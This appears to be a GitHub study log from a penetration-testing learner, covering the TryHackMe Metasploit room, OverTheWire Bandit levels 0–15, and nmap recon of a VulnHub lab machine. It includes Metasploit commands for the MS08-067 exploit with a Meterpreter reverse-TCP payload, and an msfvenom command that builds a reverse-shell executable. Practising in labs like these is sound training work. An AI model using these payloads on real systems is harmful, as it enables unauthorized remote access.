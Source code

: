 # 🚀 Day 16: Metasploit | Bandit (0–15) | VulnHub Scriptkiddie

---

## 📌 Overview
Day 16 was a packed day of learning and practice across three platforms:  

1. **TryHackMe Metasploit Room** — Focused on scanning, exploitation, Metasploit database, msfvenom payloads.  
2. **OverTheWire Bandit (levels 0 → 15)** — Strengthened Linux fundamentals through practical challenges.  
3. **VulnHub: Funbox Scriptkiddie** — Beginner-friendly CTF-style machine, performed initial recon and setup.  

---

## 🔹 TryHackMe — Metasploit Room

### Key Topics
- Scanning targets with Metasploit  
- Using the Metasploit database (`msfdb`)  
- Conducting vulnerability scans  
- Exploiting vulnerable services  
- Generating payloads with `msfvenom`  
- Obtaining a Meterpreter session  

### Important Commands
```bash
# Start and initialize the Metasploit database
msfdb init

# Launch Metasploit
msfconsole

# Database-related commands
db_status
workspace -a tryhackme_lab
hosts
services

# Scan target host
use auxiliary/scanner/portscan/tcp
set RHOSTS <target_ip>
set PORTS 1-1000
run

# Example exploit usage
search ms08_067
use exploit/windows/smb/ms08_067_netapi
set RHOSTS <target_ip>
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST <your_ip>
run

# Generate payload with msfvenom
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<your_ip> LPORT=4444 -f exe > shell.exe

🔹 OverTheWire — Bandit (Level 0 → 15)
Focus Areas
SSH basics
File permissions
Hidden files & directories
Encodings (base64, hex, gzip, bzip2)
Cron jobs
Password retrieval logic
Important Commands
# SSH into Bandit
ssh bandit0@bandit.labs.overthewire.org -p 2220

# Find hidden files
ls -la

# View file contents
cat <filename>

# Read the first line
head -n 1 <filename>

# Read the last line
tail -n 1 <filename>

# Base64 decode
cat data.txt | base64 -d

# Hex dump & reverse
xxd -r file.hex > file.out

# Search by permissions
find / -user bandit7 -group bandit6 -size 33c 2>/dev/null

# Connect via nc
nc <host> <port>

🔹 VulnHub — Funbox: Scriptkiddie
Setup
Downloaded & imported Funbox11.ova
Added entry to /etc/hosts:
funbox11  <target_ip>

Initial Recon
# Host discovery
nmap -sn <target_network>/24

# Full port scan
nmap -p- -T4 <target_ip>

# Service and version detection
nmap -sV -sC -p <ports> <target_ip>

# Add entry for convenience
echo "<target_ip> funbox11" | sudo tee -a /etc/hosts

🔑 Key Takeaways

Metasploit is more than just an exploitation tool — its database & msfvenom features make it a full pentest framework.
Bandit reinforces Linux fundamentals that are critical in real-world scenarios.
VulnHub challenges simulate attacker workflows and build applied experience.
<img width="1920" height="1080" alt="Screenshot from 2025-08-24 14-49-24" src="https://github.com/user-attachments/assets/011b7e2b-9d9b-4540-8e3a-b2070c93229e" />
<img width="1920" height="1080" alt="Screenshot from 2025-08-24 19-50-06" src="https://github.com/user-attachments/assets/c0c080de-fe2d-4a44-b07e-df4a64d770a8" />
<img width="1920" height="1080" alt="Screenshot from 2025-08-24 21-33-34" src="https://github.com/user-attachments/assets/32246813-1829-454c-9580-eee074bb433f" />
<img width="1920" height="1080" alt="Screenshot from 2025-08-24 19-50-46" src="https://github.com/user-attachments/assets/4aabca73-9b35-4310-9f56-ecf8a11ee4f8" />

